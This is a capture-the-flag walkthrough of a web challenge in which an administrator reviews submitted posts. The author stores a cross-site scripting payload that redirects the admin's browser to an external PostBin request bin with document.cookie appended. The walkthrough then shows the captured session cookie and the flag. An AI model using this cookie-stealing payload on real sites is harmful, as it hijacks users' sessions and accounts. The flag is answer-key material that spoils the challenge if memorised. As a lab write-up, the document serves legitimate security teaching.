


We're initially provided with a simple webpage



Functionality is provided that allows us to create a post. When submitting we are provided with this prompt:

```
Your post was submitted for review. Administator will take a look shortly. 
```

This leads me to believe that we're going to have to execute an attack to steal cookies from an administrator.

Lets see if the `admin` clicks on our links. For this I will be using [PostBin](https://postb.in)

Submitting just a link results in no direct access to our request bin. We're going to have to try a different technique.


The other way to attempt this is to submit a XSS (Cross Site Scripting) attack that will automatically redirect the victim.

This can be achieved with the code:
```html
<script>
    location.href="<URL>"
</script>
```

This will automatically redirect the victim to the URL of our choice.

Putting this together with out request bin we get the final payload;

```html
<script>
    location.href = 'https://postb.in/1561291979505-8530671542976?cookie='+document.cookie;
</script>
```

When entered we get the `cookie` values from the admin!

```
cookie: 
    flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; 
    session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```

FLAG:
```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```